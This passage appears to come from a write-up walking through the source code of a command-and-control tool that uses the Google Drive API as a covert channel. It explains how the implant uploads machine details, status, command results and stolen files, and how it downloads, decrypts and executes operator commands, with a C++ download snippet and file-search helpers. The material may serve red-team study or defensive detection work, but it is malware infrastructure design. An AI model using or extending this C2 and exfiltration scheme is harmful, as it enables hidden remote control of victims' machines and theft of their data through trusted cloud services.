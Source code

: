 Using `httplib::Client`, we then POST to the Drive API's upload endpoint. Google requires the query parameter `uploadType=multipart` for this kind of upload. If we are updating an existing file, we use a PATCH request to the file's specific URI (including the file ID). On success, Drive will respond with a JSON containing the file's metadata (including a new file ID if it was created). We check `result->status == 200` to confirm the upload succeeded.

This function is the workhorse for sending data to our cloud C2. The client uses `UploadFile` to send up things like its `public_key`, the initial `info` file (machine details), periodic `status` updates, and any command results or stolen files. The server, on the other hand, can use the same method (through the DriveAPI class) to upload command instructions or collect files from clients.

## `DownloadFile`

Downloading a file from Drive is thankfully simpler. (see [Manage downloads guide](https://developers.google.com/workspace/drive/api/guides/manage-downloads)) If we know the file's Drive ID, we can issue a GET request to the Drive API with that ID and the `?alt=media` query parameter to fetch the file's contents directly:

```cpp
std::string url = "/drive/v3/files/" + fileID + "?alt=media";
auto result = API.Get(url.c_str());
if (result && result->status == 200) {
    return json::parse(result->body);
}
return json(); // return empty JSON on failure
```

The `alt=media` flag tells Google to return the file data itself (not metadata). Since all of our C2 files (commands, info, etc.) are stored as JSON content, we directly parse the response body into a JSON object and return that. The client then decrypts the JSON if needed (using the Encryption class) and acts on it. For example, when the client finds a new `"command_file"`, it calls `DownloadFile` to get the encrypted command JSON, decrypts it, and executes the instruction.

## Searching and Checking for Files

To enable a two-way communication using Drive, both the client and server frequently need to find files by name or by content. The Drive API supports query strings for searching (see [Search files guide](https://developers.google.com/workspace/drive/api/guides/search-files)). In our class, `SearchFileName` searches the entire Drive (accessible to the service account) for files whose name contains a given string. `SearchFileNamePerUser(folderId, name)` does the same but within a specific folder (by adding the "'<folderId>' in parents" filter).

We often use these to check if a file already exists so we know whether to create a new one or just update it. For instance, when the client is about to upload its `"public_key"` or `"status"`, it calls `SearchFileNamePerUser(clientFolderId, "public_key")` to see if that file is already present in its Drive folder:

> ### Checking for File Existence
> The client implements a helper `CheckFileExists(fileName)` that uses `DriveAPI::SearchFileNamePerUser`. If a file with that name is found in the client's folder, the function returns its ID. This way, before uploading, the client knows whether to call `UploadFile` with an empty `fileIdUpdate` (to create a new file) or with the existing file's ID (to update it). This approach prevents duplicate files like multiple "public_key" entries for the same machine.
